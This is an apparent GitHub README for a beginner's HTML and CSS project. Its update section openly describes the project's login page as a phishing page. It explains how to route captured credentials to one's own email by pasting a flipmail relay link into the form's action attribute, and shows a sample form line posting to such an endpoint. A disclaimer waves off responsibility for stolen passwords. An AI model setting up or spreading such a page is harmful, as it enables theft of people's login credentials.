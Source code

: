 # html-and-CSS
Intial web development projects using html and CSS<br>
This is my first project in html using CSS.<br>
Feel free to make to changes in my code.<br>
# UPDATE
* Now the input fields accept submissions.
* The login page is a phishing page,it sends the data to email.
* To get responses on your email,do the following:
* go to flipmail.com and enter your email to get a link.
* copy that link and edit the following line of code in index.html<br>
``` <form method="POST" action="http://flipmail.co/api/6PTILki4KnRoNyG4U2rg"> ```
* paste your flipmail link in action field and it will start sedning responses to your email address.
* I am not responsible for any illegal deeds done by you after getting password through this phishing page.
* I created this for the purpose of learning form inputs.
